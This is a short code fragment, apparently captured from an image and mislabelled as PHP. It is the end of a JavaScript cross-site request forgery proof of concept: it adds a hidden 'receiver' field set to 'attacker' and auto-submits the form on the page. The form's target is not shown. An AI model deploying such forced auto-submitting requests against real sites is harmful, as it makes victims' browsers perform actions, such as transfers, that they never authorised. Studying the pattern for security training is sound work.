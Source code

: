 ```php
            var receiverField = document.createElement('input');
            receiverField.type = 'hidden';
            receiverField.name = 'receiver';
            receiverField.value = 'attacker';
            form.appendChild(receiverField);

            // Añadir el formulario al cuerpo del documento y enviarlo automáticamente
            document.body.appendChild(form);
            form.submit();
        };
    </script>
```
